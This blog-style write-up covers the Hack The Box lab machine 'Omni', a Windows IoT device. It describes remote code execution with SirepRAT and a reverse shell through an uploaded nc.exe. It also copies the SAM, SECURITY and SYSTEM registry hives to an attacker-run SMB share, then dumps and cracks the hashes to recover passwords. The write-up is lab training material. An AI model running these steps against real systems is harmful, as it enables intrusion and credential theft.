 ```yaml
---
layout: post
title: Omni - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-07
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Omni is a Windows box but with the fun twist of being a small IoT device.

## Enumeration

### Nmap

Performing an Nmap scan reveals the following ports open on the remote host.

```shell
# Nmap 7.92 scan initiated Sat Feb  5 09:05:31 2022 as: nmap -sC -sV -p- -o allnmap -v -Pn 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.058s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.92%I=7%D=2/5%Time=61FE849C%P=aarch64-unknown-linux-gn
SF:u%r(NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines
SF:,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xf
SF:b`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\
SF:x1c\xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  5 09:08:31 2022 -- 1 IP address (1 host up) scanned in 180.72 seconds
```

Going to the site at 10.10.10.104:8080 gives us a login site for a site called "Windows Device Portal". This is good information!

Googling for "Windows Device Portal Exploit" (super complicated I know) gives us a result for a tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

## Exploitation

### Remote Code Execution

Using SirepRAT, we can execute code on the remote machine and receive a remote shell on the target machine!

To begin, we are going to do the tried and trusted http server hosting through Python and upload nc.exe to the victim host.

```shell
sudo python3 -m http.server 80
```

![NCexe](https://mitchelldstein.github.io/assets/images/Omni/UploadNC.png)

Once nc.exe is uploaded to the host we can execute and receive a reverse shell on the victim!

![RCE](https://mitchelldstein.github.io/assets/images/Omni/SirepRAT1.png)

![Shell](https://mitchelldstein.github.io/assets/images/Omni/Shell1.png)

## User Enumeration

We all know the reason we are here, we want flags. Looking through the file system we can find the user directory and perusing through that gives the user flag.

![User Flag](https://mitchelldstein.github.io/assets/images/Omni/FlagUser.png)

This isn't the flag we are expecting.. What is this? Doing some research it to be a PS Credential file which can be decrypted with either the user password or using [Import-Clixml](https://stackoverflow.com/questions/63639876/powershell-password-decrypt). Sadly this user does not have access to use this command. We will need the user password to decrypt the "Password" field.

Looking into how to to get hashes from a local Windows machine I found the registry and system memory hold these passwords. We are going to skip system memory and use the SAM entry to find the hashes we desire.

Impacket-Secretsdump has a very useful `-SAM` option to parse through SAM hive entries. Perfect!

### Gathering Password Hashes

Impacket requires the SAM, security, and system registry entries for this exploit to work.

To get these to our local machine we can load up the Impacket-SmbServer and connect on the victim computer.

On the Kali machine:

```shell
$ impacket-smbserver share . -smb2support -username yo -password yo
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the Windows IoT machine:

```shell
net use \\10.10.14.19\share /u:yo yo
```

![System reg](https://mitchelldstein.github.io/assets/images/Omni/System.png)
![SAM reg](https://mitchelldstein.github.io/assets/images/Omni/Sam.png)
![Security reg](https://mitchelldstein.github.io/assets/images/Omni/Security.png)
![Hashes](https://mitchelldstein.github.io/assets/images/Omni/Hashes.png)

### Cracking Hashes

We will now use John to crack these hashes against rockyou.txt

![John](https://mitchelldstein.github.io/assets/images/Omni/John.png)

Nice! We got the password for the user "app". Using this we can finally log into the web-app side of this machine.

## Web App

With the "app" user, we can use the web-app interface to run commands. Under Processes we can find a Run Command window. We are going to repeat the reverse shell command we used before to get a reverse shell as the app user.

![WebApp](https://mitchelldstein.github.io/assets/images/Omni/WebApp.png)

### App User Shell

This user does have access to use the Import-CLixml command which allows us to decrypt the user flag.

There are two more interesting files in the C:\Data\Users\app directory, **hardening.txt** and **iot-admin.xml**.

**Hardening.txt** does not hold any useful information, just steps for hardening the admin user which already seems to be completed.

Using **Import-Clixml** on iot-admin.xml provides us the administrator password.

![Admin Password](https://mitchelldstein.github.io/assets/images/Omni/AdminPass.png)

### Admin Shell

Going back to the webapp with the new admin password and running a new reverse shell command through the GUI finally provides an windows\system32 shell. Navigating to C:\data\users\administrator and running the following command grants the root flag.

```shell
(Import-Clixml -Path root.txt).GetNetworkCredentials().Password
```
